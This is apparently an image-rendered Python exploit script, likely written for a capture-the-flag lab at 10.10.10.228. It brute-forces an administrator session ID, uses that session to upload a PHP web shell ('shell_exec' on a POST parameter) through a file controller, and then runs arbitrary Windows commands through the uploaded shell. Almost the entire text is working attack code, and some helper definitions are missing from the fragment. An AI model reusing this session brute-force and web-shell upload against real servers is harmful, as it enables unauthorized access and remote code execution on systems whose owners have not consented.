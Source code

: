 ```py


def upload_file():
    loop = True
    print("[+] Brute frocing session ID")
    while loop:
        gen_session = makesession(admin_name)
        # print(gen_session)
        check_paul = admin(gen_session)
        if "<h3>Dashboard</h3>" in check_paul:
            cookies_dict = {"PHPSESSID": gen_session, "token": encoded_jwt}
            data = "-----------------------------21178199893857990766125057944\r\nContent-Disposition: form-data; " \
                   f"name=\"file\"; filename=\"shell.php\"\r\nContent-Type: application/x-php\r\n\r\n<?php echo " \
                   f"shell_exec($_POST[\"cmd\"]);?>\r\n-----------------------------21178199893857990766125057944\r" \
                   f"\nContent-Disposition: form-data; " \
                   f"name=\"task\"\r\n\r\n{rnd_word}.php\r\n" \
                   f"-----------------------------21178199893857990766125057944--\r\n "
            headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0",
                       "Accept": "*/*",
                       "Accept-Language": "en-US,en;q=0.5",
                       "Accept-Encoding": "gzip, deflate",
                       "X-Requested-With": "XMLHttpRequest",
                       "Content-Type": "multipart/form-data; boundary=---------------------------21178199893857990766125057944",
                       "Content-Length": str(len(data)),
                       "Origin": "http://10.10.10.228",
                       "DNT": "1",
                       "Connection": "close",
                       "Referer": f"{url}/php/files.php"}

            upload_file = r.post(f'{url}/includes/fileController.php', headers=headers, data=data, cookies=cookies_dict,
                                 allow_redirects=True)
            print("[+] " + upload_file.text)
            print(f"Filenme: {rnd_word}")
            loop = False


def exec_file(file_name, cmd):
    post_cmd = {"cmd": cmd}
    execute = r.post(f'{url}/uploads/{file_name}.php', data=post_cmd)
    print(execute.text)


parser.add_argument('-u', action='store_true', help="upload file")
parser.add_argument('-e', action='store_true', help="execute uploaded file")
parser.add_argument("-f", help="uploaded file name without Extension")
parser.add_argument("-c", help="windows cmd Command")
args = parser.parse_args()

if  __name__ == "__main__":
    try:
        if args.u:
            upload_file()
        elif args.e:
            if args.f and args.c:
                exec_file(args.f, args.c)
            else:
                print("[-] Missing argument")
```